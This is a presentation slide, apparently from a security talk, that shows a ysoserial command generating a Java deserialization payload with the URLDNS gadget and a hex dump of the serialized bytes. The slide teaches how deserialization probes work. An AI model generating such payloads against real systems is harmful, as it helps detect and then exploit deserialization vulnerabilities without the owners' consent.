

# Example Gadget - URLDNS
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS https://owasp.org/ | xxd
00000000: aced 0005 7372 0011 6a61 7661 2e75 7469  ....sr..java.uti
00000010: 6c2e 4861 7368 4d61 7005 07da c1c3 1660  l.HashMap......`
00000020: d103 0002 4600 0a6c 6f61 6446 6163 746f  ....F..loadFacto
00000030: 7249 0009 7468 7265 7368 6f6c 6478 703f  rI..thresholdxp?
00000040: 4000 0000 0000 0c77 0800 0000 1000 0000  @......w........
00000050: 0173 7200 0c6a 6176 612e 6e65 742e 5552  .sr..java.net.UR
00000060: 4c96 2537 361a fce4 7203 0007 4900 0868  L.%76...r...I..h
00000070: 6173 6843 6f64 6549 0004 706f 7274 4c00  ashCodeI..portL.
00000080: 0961 7574 686f 7269 7479 7400 124c 6a61  .authorityt..Lja
00000090: 7661 2f6c 616e 672f 5374 7269 6e67 3b4c  va/lang/String;L
000000a0: 0004 6669 6c65 7100 7e00 034c 0004 686f  ..fileq.~..L..ho
000000b0: 7374 7100 7e00 034c 0008 7072 6f74 6f63  stq.~..L..protoc
000000c0: 6f6c 7100 7e00 034c 0003 7265 6671 007e  olq.~..L..refq.~
000000d0: 0003 7870 ffff ffff ffff ffff 7400 096f  ..xp........t..o
000000e0: 7761 7370 2e6f 7267 7400 012f 7100 7e00  wasp.orgt../q.~.
000000f0: 0574 0005 6874 7470 7370 7874 0012 6874  .t..httpspxt..ht
00000100: 7470 733a 2f2f 6f77 6173 702e 6f72 672f  tps://owasp.org/
00000110: 78                                       x